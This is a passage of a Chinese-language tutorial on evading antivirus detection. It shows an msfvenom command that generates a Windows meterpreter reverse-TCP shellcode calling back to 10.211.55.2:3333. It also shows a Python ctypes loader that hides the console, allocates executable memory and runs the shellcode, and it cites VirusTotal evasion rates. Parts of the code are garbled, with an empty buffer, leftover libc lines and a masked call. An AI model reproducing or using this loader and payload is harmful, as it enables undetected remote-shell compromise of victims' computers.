 virustotal.com 中 16/71 个报毒

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbgPickqRY9w6xd2e2PEDXNNENcQKmQ7Xx0Sxia6u5UXsicu1RNgn2v9kjQ/640?wx_fmt=png)

2.4 方法 4：py+C 编译 exe(VT 免杀率 18/69)
----------------------------------

和 2.1 方法一样，先生成 shellcode。

先用 msfvenom 生成 shellcode:

```
msfvenom -p windows/meterpreter/reverse_tcp   LHOST=10.211.55.2 LPORT=3333   -f c
```

python 代码如下：

```
import ctypes

buf =  ""
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
    buf = c_char_p(buffer)
    size = len(buffer)
    addr = libc.valloc(size)
    addr = c_void_p(addr)
    if 0 == addr: 
        raise Exception("Failed to allocate memory")
    memmove(addr, buf, size)
    if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
        raise Exception("Failed to set protection on buffer")
    return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
       if 1:
              ctypes.windll.use***.ShowWindow(whnd, 0)   
              ctypes.windll.kernel32.CloseHandle(whnd)
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                     buf,
                                     ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```

